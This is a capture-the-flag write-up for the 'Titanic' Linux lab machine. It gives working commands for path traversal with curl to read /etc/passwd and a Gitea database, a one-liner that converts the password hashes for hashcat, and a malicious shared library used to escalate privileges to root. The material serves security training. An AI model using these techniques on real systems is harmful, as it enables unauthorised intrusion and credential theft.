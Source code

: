  Titanic (Linux)

First thing first, I ran `nmap -sVC` on the targets IP address.

## Nmap
22 SSH
80 TCP
Are both open. 

I opened up the IP address on a web browser but nothing loads. Porbaly need to add into our /etc file
Once we Added into our `/etc/hosts`; I gave it some time and right afterwards I had access to the website on my local machine. 

## titanic.htb
**Book Your Trip** button downloads a json file unto your machine, when filled out appropriately.
The buttons on the header dont work other than **Book Now** which does the same as **Book Your Trip**

## Fuzzing
200 on subdomain **dev**
Added to my `/etc/hosts` and visited the webpage.
Running on Gitea Version: 1.22.1; checked for any vuln but as of now based of what I saw on Github, the most recent one has been patched. 

I went into the **Explore** button and found the repository for this application. 
One of the repo had **docker-config** that also had **mysql** folder that had a **docker-compose.yml** file:

```
version: '3.8'

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets 
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always

```

gitea folder also had a **docker-compose.yml**

```
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

Notice and rememeber the paths we have come across.

While looking at the other repository I came across **app.py** and checked for any vuln.

```
@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

```
1. Ticket comes directly from user input (request.args.get('ticket')).
2. There is no validation to ensure the filename is within TICKETS_DIR.

## Curl
`curl http://titanic.htb/download?ticket=../../../../etc/passwd`
This contained a list of users on the system

`developer:x:1000:1000:developer:/home/developer:/bin/bash`
This is likely a human user with a real home directory.

Why not try and do the same with curl again.. Since we know the file we are looking for (**user.txt**), we can insert that into our `curl` command.
`curl http://titanic.htb/download?ticket=../../../../home/developer/user.txt`

**User Flag Pwned**

## Stil on curl
Since I have been using curl thus far I thought to continue on using it. 
`curl -o gitea.db "http://titanic.htb/downloadticket=../../../../home/developer/gitea/data/gitea/gitea.db"`
Using the `-o` flag tells `curl` to save the downloaded content to a file (**gitea.db**). 
And I am still using [path traversal](https://github.com/mksiki/notes/blob/main/path_traversal.md). 

## SQLite3 
[Analyzed and used to extract password hashes](https://github.com/mksiki/notes/blob/main/sqlite3_ex.md). 
```

sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes

```

## Hashcat 
`hashcat -m 10900 gitea.hashes /usr/share/wordlists/rockyou.txt --username`
After finding the password I used ssh to get into the machine. See theuser flag that I already got but also files that we also already saw before.

## SSH (privilege escalation)
Located `/opt/` [directory](https://github.com/mksiki/notes/blob/main/opt.md) which we used to explore. 
`/scripts/` then used `cat` to explore the contents of the file that was inside.

Checked for `magick -version` that was used to exploit; simple Google search. 
Looked at the poc and used this,

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF

```
Ran this code in the `/opt/app/static/assets/images/`
This directory is writable and accessible, making it a suitable location to upload or execute arbitrary code. [Example](https://github.com/mksiki/notes/blob/main/opt.md)

3-5 seconds I `ls` and saw `root.txt`.
PWNED!

The target machine, Titanic (Linux), was explored through a series of steps. After running `nmap`, the website was accessible after adding the target IP to `/etc/hosts`. The site had a "Book Your Trip" button that triggered a download of a JSON file. Subdomain fuzzing revealed a Gitea instance running on version 1.22.1, but no vulnerabilities were found. The app's source code revealed a vulnerability in the `/download` route, where path traversal could access sensitive files. Using `curl`, the user flag was obtained.

Further exploration led to downloading the Gitea database (`gitea.db`) using path traversal and extracting password hashes with SQLite3. The hashes were cracked using Hashcat, and SSH access was gained.

Privilege escalation was achieved by exploiting a writable directory (`/opt/app/static/assets/images/`) and uploading a malicious shared library that copied the root flag to the current directory. The root flag was successfully obtained, completing the exploit.
